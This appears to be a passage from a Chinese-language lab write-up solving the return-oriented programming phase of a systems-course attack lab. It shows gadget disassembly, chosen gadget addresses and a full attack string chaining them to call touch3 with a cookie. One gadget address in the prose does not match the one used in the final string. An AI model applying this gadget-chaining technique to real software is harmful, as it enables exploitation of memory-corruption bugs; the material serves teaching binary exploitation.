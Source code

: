 ```assembly
addval_113:
  4019e8:	8d 87 【89 ce】 78 c9 	leal	-914829687(%rdi), %eax
  4019ee:	c3 	retq
  
addval_436:
  401a11:	8d 87 【89 ce】 90 90 	leal	-1869558135(%rdi), %eax
  401a17:	c3 	retq
  
addval_187:
  401a25:	8d 87 【89 ce】 【38 c0】 	leal	-1070018935(%rdi), %eax
  401a2b:	c3 	retq
  
addval_404:
  401a61:	8d 87 【89 ce】 92 c3 	leal	-1013789047(%rdi), %eax
  401a67:	c3 	retq
```

其中，只有addval_436和addval_187中的字节序列可以使用，起始地址分别为`401a13`和`401a27`。

7.`leaq	(%rdi,%rsi), %rax`出现在函数add_xy中：

```assembly
add_xy:
  4019d6:	48 8d 04 37 	leaq	(%rdi,%rsi), %rax
  4019da:	c3 	retq
```

其起始地址为`4019d6`。

8.`movq %rax, %rdi`与第二步相同，可以使用addval_273和setval_426中的字节序列，起始地址分别为`4019a3`和`4019c5`。

综上所述，我们可以得出最终的攻击字符串：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # 1.从可选的两个地址中任选一个，对应指令movq %rsp, %rax
a2 19 40 00 00 00 00 00 # 2.从可选的两个地址中任选一个，对应指令movq %rax, %rdi
ab 19 40 00 00 00 00 00 # 3.从可选的两个地址中任选一个，对应指令popq %rax
48 00 00 00 00 00 00 00 # 偏移量=9条指令×8=72=0x48
dd 19 40 00 00 00 00 00 # 4.从可选的两个地址中任选一个，对应指令movl %eax, %edx
34 1a 40 00 00 00 00 00 # 5.从可选的两个地址中任选一个，对应指令movl %edx, %ecx
13 1a 40 00 00 00 00 00 # 6.从可选的两个地址中任选一个，对应指令movl %ecx, %esi
d6 19 40 00 00 00 00 00 # 7.对应指令leaq (%rdi,%rsi), %rax
a2 19 40 00 00 00 00 00 # 8.从可选的两个地址中任选一个，对应指令movq %rax, %rdi
fa 18 40 00 00 00 00 00 # 9.函数touch3的起始地址
35 39 62 39 39 37 66 61 00 # cookie的值3
```

